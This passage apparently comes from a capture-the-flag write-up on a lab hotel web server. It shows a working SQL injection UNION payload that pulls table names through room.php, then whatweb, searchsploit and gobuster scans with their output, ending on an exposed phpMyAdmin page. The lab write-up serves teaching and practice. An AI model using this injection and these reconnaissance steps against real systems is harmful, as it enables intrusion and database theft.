 - using `group_concat(distinct table_name) from information_schema.tables WHERE table_schema = 'hotel'`

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%20null,group_concat(distinct%20table_name),null,null,null,null,null%20from%20information_schema.tables%20WHERE%20table_schema%20=%20%27hotel%27;%20--+#
```

But we only have one table, called `room`. Clicking the "sign in" link shows it doesn't actually work (just goes to "href=#")

Time to back out and finish my typical enumeration scans:

```sh
❯ ulimit -n 8192 # prevent file access error during scanning
❯ whatweb -v -a3 http://10.10.10.143 | tee whatweb.log
# Summary   : Script, Apache[2.4.25], Modernizr[2.6.2.min], UncommonHeaders[ironwaf], Bootstrap[3.3.5], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], Open-Graph-Protocol, Email[supersecurehotel@logger.htb], X-UA-Compatible[IE=edge], JQuery, Cookies[PHPSESSID]

# notice nonstandard "ironwaf" header with version 2.0.3

❯ searchsploit ironwaf 2.0
Exploits: No Results
Shellcodes: No Results

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.txt -u http://10.10.10.143
http://10.10.10.143/css                  (Status: 200) [Size: 3043]
http://10.10.10.143/fonts                (Status: 200) [Size: 1333]
http://10.10.10.143/footer.php           (Status: 200) [Size: 2237]
http://10.10.10.143/index.php            (Status: 200) [Size: 23628]
http://10.10.10.143/images               (Status: 200) [Size: 7201]
http://10.10.10.143/js                   (Status: 200) [Size: 3580]
http://10.10.10.143/nav.php              (Status: 200) [Size: 1333]
http://10.10.10.143/phpmyadmin           (Status: 200) [Size: 15223]
http://10.10.10.143/room.php             (Status: 200) [Size: 23628]
```

There is a phpmyadmin page!

![](img/web-phpmyadmin.png)
